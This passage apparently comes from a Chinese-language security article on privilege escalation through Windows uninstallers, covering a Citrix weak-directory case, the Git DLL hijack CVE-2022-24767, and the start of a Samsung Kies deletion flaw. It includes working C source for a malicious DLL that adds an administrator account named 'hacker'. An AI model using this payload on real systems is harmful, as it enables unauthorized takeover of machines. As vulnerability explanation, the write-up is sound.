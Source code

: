![](https://mmbiz.qpic.cn/sz_mmbiz_png/Bvow4Cv9oZ15o4dZNwV6ibDWMAL8CCTW5zMEI5xwq0KxxSLAultY1K0H947nMWPZARGvI6h8zU1jsmR1M6PwJCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Bvow4Cv9oZ15o4dZNwV6ibDWMAL8CCTW54nKxvo93r1dibOXfcUh8VVEQuuwV5Sh1xrGfibpYC4Y6qbiaKWiaVTvy0w/640?wx_fmt=png&from=appmsg "")  
  
  
攻击路径：  
- C:\ProgramData\Citrix\ 是弱权限目录，普通用户可以写入文件。  
  
- 攻击者在该目录下放置恶意的 Citrix.exe。  
  
- 当管理员卸载 Citrix Workspace 时，恶意文件被执行，权限提升成功。  
  
启示：路径未加引号加上弱权限目录，是此类攻击的常见组合。  
### CVE-2022-24767：DLL 劫持提权  
  
漏洞概述：Windows 版 Git 的卸载程序在 SYSTEM 权限下运行时，会从 C:\Windows\Temp 加载 DLL 文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Bvow4Cv9oZ15o4dZNwV6ibDWMAL8CCTW5AEG0s5C0HPG7HeC7C7b9iaGyky4dBurgCq5V56GBqTVcFwIvtEhCicJQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Bvow4Cv9oZ15o4dZNwV6ibDWMAL8CCTW5geHhDsngT0wmia8IbfGbTzTPX8EibA0BxdNAeic4EVxT8MBcF9u80zCqw/640?wx_fmt=png&from=appmsg "")  
  
  
攻击路径：  
- C:\Windows\Temp 是弱权限目录，普通用户可写入。  
  
- 攻击者将恶意 DLL（例如 netapi32.dll）放入该目录。  
  
- 当 SYSTEM 用户卸载 Git 时，恶意 DLL 被加载并执行。  
  
恶意 DLL 示例代码：  
```
#include <stdio.h>
#include <windows.h>

BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe \"/k net user hacker password /add && net localgroup administrators hacker /add\"");
        ExitProcess(0);
    }
    return TRUE;
}

```  
  
将编译后的 netapi32.dll 放入 C:\Windows\Temp，卸载 Git 时，系统会创建一个名为 hacker 的管理员账户。  
  
  
启示：DLL 劫持利用系统加载动态链接库的特性，是权限提升的常见手法。  
### CVE-2022-39845：任意目录删除  
  
漏洞概述：Samsung Kies 卸载程序存在验证不当问题，会尝试删除 C:\ProgramData\Samsung\deviceprofile\cache 目录内容。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Bvow4Cv9oZ15o4dZNwV6ibDWMAL8CCTW5qrWgUZZTfnOOWeiamlKvvb8bf84TGCoTgJicR8ueqibY2fANvwn0ibBdQA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Bvow4Cv9oZ15o4dZNwV6ibDWMAL8CCTW5cp0MXTOicMGs0I1X39qVYtStVVvSmy4EVS5UfDMUTIfLfqevTJNILWw/640?wx_fmt=png&from=appmsg "")  
  
